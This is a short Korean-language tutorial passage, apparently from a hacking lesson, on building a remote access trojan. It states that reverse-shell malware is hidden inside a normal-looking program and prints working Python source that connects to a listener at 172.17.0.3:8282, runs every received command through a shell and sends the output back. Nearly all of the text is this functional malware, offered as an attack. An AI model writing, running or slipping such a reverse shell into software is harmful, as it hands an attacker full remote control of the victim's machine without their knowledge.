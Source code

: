 ![Untitled](Untitled%20598.png)

# 원격 접속 트로이목마 (Remote Access Trojan, RAT)

이 멀쩡해보이는 프로그램에 리버스쉘 악성코드를 숨깁니다.

우리가 만든 악성코드는 이렇게 생겼습니다.

```python
import socket
import subprocess

host = "172.17.0.3"
port = 8282

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, port))

while True:
    command = s.recv(1024).decode()
    output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, text=True)
    result = output.stdout
    if(result==''):
        s.send("success".encode())
    else:
        s.send(result.encode())
```
